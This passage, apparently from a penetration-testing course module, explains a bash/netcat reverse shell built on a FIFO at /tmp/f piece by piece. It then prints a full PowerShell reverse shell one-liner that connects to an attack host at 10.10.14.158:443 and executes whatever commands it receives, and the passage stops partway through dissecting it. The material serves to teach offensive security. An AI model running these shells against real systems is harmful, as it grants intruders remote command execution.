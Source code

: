 ```shell
cat /tmp/f | 
```

Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).

#### Set Shell Options

  Set Shell Options

```shell
/bin/bash -i 2>&1 | 
```

Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`).

#### Open a Connection with Netcat

  Open a Connection with Netcat

```shell
nc 10.10.14.12 7777 > /tmp/f  
```

Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

---

## PowerShell One-liner Explained

The shells & payloads we choose to use largely depend on which OS we are attacking. Be mindful of this as we continue throughout the module. We witnessed this in the reverse shells section by establishing a reverse shell with a Windows system using PowerShell. Let's breakdown the one-liner we used:

#### Powershell One-liner

  Powershell One-liner

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

We will dissect the rather large PowerShell command you can see above. It may look like a lot, but hopefully, we can demystify it a bit.

#### Calling PowerShell

  Calling PowerShell
